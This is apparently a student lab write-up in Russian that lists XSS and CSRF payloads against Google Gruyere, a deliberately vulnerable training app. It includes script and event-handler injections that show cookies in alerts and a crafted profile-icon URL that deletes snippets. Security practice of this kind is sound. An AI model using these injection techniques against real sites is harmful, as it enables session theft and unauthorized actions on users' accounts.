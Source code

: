 # Payloads для gruyere

_Пример оформления работы_

## Payload 1

При переходе по ссылке `https://example.com/example`. Параметр `example` можно заменить на пейлоад `<script>alert(document.cookies)</script>` для выполнения Reflected XSS инъекции в элементе `<div id="search-query-param">...</div>`, который покажет куки файлы пользователя

## Payload 1
При создании нового сниппета можно написать в нём `<a onmouseover="alert(document.cookie) href='#'">text</a>`, который будет выводит куки при наведении.

## Payload 2
При изменении цвета профиля можно задать цвету атрибуты onmouseover black' onmouseover='alert(682)', который при наведении на него будет выводить alert.

## Payload 3
При изменении профиля можно написать url в icon https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0 , который позволяет удалять сниппеты

## Payload 4
В приват сниппет можно написать любой html тег например `<img src=x onerror=alert('XSS')>`, что выведит alert на странице.

## Payload 5
В изменении иконки профиля можно вставить html тег img `<img%20src="javascript:alert(document.cookie);"></img>` - alert вывелся

## Payload 6
В изменении профиля можно указать ссылку на home page и туда можно вставить `<img src=x onerror=alert(1)>`

## Payload 7

